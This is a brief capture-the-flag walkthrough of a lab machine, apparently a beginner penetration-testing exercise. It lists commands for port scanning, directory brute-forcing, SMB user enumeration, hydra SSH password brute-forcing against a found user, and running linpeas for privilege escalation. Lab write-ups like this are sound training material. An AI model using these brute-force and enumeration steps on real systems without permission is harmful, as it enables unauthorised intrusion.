 https://youtu.be/xl2Xx5YOKcI

Steps Taken To Exploit:
- Find the open ports using:

```sh
namp -sV 10.10.92.126
```

- We see below open ports:
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
MAC Address: 02:4D:8C:0C:B1:69 (Unknown)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Lets do driectory bruteforcing the http service.
```sh
gobuster dir http://10.10.92.126 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
We found development directory and see few notes in it.

- Now lets run enum4linux to enumerate the system
```sh
enum4linux -a 10.10.92.126
```
we get two users jan and kay.

- Now run hydra to bruteforce the password for jan
```sh
hydra -l jan -P /usr/share/wordlist/rockyou.txt ssh://10.10.92.126
```

- Now ssh login to machine and run linpeas.sh to get privilege escalation
```sh
linpeas.sh | tee results.txt
```
